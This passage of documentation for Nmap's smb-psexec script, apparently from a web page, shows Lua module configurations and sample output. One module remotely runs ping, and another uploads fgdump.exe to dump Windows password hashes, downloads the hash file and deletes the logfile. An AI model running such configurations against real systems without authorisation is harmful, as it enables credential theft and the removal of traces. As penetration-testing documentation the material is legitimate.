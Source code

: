 And the output:

```

  |  Example 4: Can the host ping our address?
  |  | Pinging 192.168.1.100 with 32 bytes of data:
  |  | Reply from 192.168.1.100: bytes=32 time
<p>And this module pings an arbitrary address that the user is expected to give, $host:</p>

 mod = {}
 mod.upload           = false
 mod.name             = "Example 5: Can the host ping $host?"
 mod.program          = "ping.exe"
 mod.args             = "$host"
 mod.remove           = {"statistics", "Packet", "Approximate", "Minimum"}
 mod.noblank          = true
 mod.env              = "SystemRoot=c:\\WINDOWS"
 mod.req_args         = {'host'}
 table.insert(modules, mod)

<p>And the output:</p>
<p>$ ./nmap -n -d -p445 --script=smb-psexec --script-args=smbuser=test,smbpass=test,config=examples,host=1.2.3.4 192.168.1.21</p>

 |  Example 5: Can the host ping 1.2.3.4?
 |  | Pinging 1.2.3.4 with 32 bytes of data:
 |  | Request timed out.
 |  | Request timed out.
 |  | Request timed out.
 |  |_Request timed out.

<h2>Example 6: Uploading</h2>
<p>For the final example, we'll use the 'upload' setting to upload the "fgdump.exe", run it, download its output file, and clean up its logfile. You'll have to put fgdump.exe in the same folder as the script for this to work:</p>

  mod = {}
  mod.upload           = true
  mod.name             = "Example 6: FgDump"
  mod.program          = "fgdump.exe"
  mod.args             = "-c -l fgdump.log"
  mod.url              = "http://www.foofus.net/fizzgig/fgdump/"
  mod.tempfiles        = {"fgdump.log"}
  mod.outfile          = "127.0.0.1.pwdump"
  table.insert(modules, mod)

<p>The -l argument for fgdump (in <strong>mod.args</strong>) supplies the name of the logfile. That file is listed in the <strong>mod.tempfiles</strong> field. What, exactly, does mod.tempfiles do? It simply gives Nmap a list of files to delete after the program runs. It's good for deleting logfiles other other artifacts </p>
<p><strong>mod.url</strong> is displayed to the user in an error message if mod.program isn't found in Nmap's data directory. And finally, <strong>mod.outfile</strong> is the file that is downloaded from the system, since fgdump.exe doesn't print to stdout (pwdump6, for example, doesn't require mod.outfile).</p>
<h2>Fields in 'mod'</h2>
<p>The following is a list of all possible fields in the 'mod' variable:</p>
```
